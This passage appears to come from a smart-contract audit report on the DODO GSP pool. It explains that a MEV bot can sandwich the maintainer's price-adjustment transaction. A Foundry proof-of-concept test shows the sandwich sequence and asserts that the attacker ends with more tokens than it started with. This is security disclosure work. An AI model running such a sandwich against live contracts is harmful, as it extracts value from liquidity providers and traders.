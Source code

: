 
Since the price will change, the MEV bot can simply sandwich the tx. Here an example how it can be executed by a MEV bot:

```solidity
function test_Adjusting_I_CanBeFrontrunned() external {
        vm.startPrank(tapir);

        //  Buy shares with tapir, 10 - 10
        dai.safeTransfer(address(gsp), 10 * 1e18);
        usdc.transfer(address(gsp), 10 * 1e6);
        gsp.buyShares(tapir);

        // print some stuff
        console.log("Base target initial", gsp._BASE_TARGET_());
        console.log("Quote target initial", gsp._QUOTE_TARGET_());
        console.log("Base reserve initial", gsp._BASE_RESERVE_());
        console.log("Quote reserve initial", gsp._QUOTE_RESERVE_());
        
        // we know the price will decrease so lets sell the base token before that
        uint256 initialBaseTokensSwapped = 5 * 1e18;

        // sell the base tokens before adjustPrice
        dai.safeTransfer(address(gsp), initialBaseTokensSwapped);
        uint256 receivedQuoteTokens = gsp.sellBase(tapir);
        vm.stopPrank();

        // this is the tx will be sandwiched by the MEV trader
        vm.prank(MAINTAINER);
        gsp.adjustPrice(999000);

        // quickly resell whatever gained by the price update
        vm.startPrank(tapir);
        usdc.safeTransfer(address(gsp), receivedQuoteTokens);
        uint256 receivedBaseTokens = gsp.sellQuote(tapir);
        console.log("Base target", gsp._BASE_TARGET_());
        console.log("Quote target", gsp._QUOTE_TARGET_());
        console.log("Base reserve", gsp._BASE_RESERVE_());
        console.log("Quote reserve", gsp._QUOTE_RESERVE_());
        console.log("Received base tokens", receivedBaseTokens);

        // NOTE: the LP fee and MT FEE is set for this example, so this is not an rough assumption
        // where fees are 0. Here the fees set for both of the values (default values):
        // uint256 constant LP_FEE_RATE = 10000000000000;
        // uint256 constant MT_FEE_RATE = 10000000000000;

        // whatever we get is more than we started, in this example
        // MEV trader started 5 DAI and we have more than 5 DAI!!
        assertGe(receivedBaseTokens, initialBaseTokensSwapped);
    }
```
Test result and logs:
<img width="435" alt="image" src="https://github.com/sherlock-audit/2023-12-dodo-gsp-mstpr/assets/120012681/2c90a84e-7fba-47ef-8fe9-bbcd36a65268">
